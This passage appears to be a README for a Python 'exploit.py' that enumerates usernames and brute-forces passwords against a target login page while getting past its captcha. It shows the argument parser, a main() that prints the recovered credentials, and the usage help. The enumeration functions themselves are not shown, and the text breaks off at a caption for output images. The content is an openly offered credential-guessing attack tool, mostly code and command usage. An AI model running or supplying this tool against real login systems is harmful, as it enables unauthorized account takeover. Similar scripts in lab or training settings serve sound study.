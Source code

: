 ```python
    python3 exploit.py -u http://Target_IP/login -ul /path/usernames.txt -pl /path/passwords.txt"
    '''
    parser = ArgumentParser(epilog=example,description='Retrieve the valid credentials using a valid captcha code')
    parser.add_argument('-u', '--url', required=True, help='The target URL')
    parser.add_argument('-ul', '--usernames-list', required=True, type= str, help='Pass the usernames list path')
    parser.add_argument('-pl', '--passwords-list', required=True, help='Pass the passwords list path')
    args = parser.parse_args()
    return args
       
           
def main():
    args = parse_args() 
    username = username_enum(args.url, args.usernames_list)
    password = password_enum(username, args.url,args.passwords_list)
    
    print("The valid credentials found:")
    print(f"Username: {username}")
    print(f"Password: {password}")


if __name__ == "__main__":
    main()
```

## Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL -ul USERNAMES_LIST -pl PASSWORDS_LIST

Retrieve the valid credentials using a valid captcha code

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     The target URL
  -ul USERNAMES_LIST, --usernames-list USERNAMES_LIST
                        Pass the usernames list path
  -pl PASSWORDS_LIST, --passwords-list PASSWORDS_LIST
                        Pass the passwords list path

Example: python3 exploit.py -u http://Target_IP/login -ul /path/usernames.txt -pl /path/passwords.txt"
```


- The output will contain like these images:
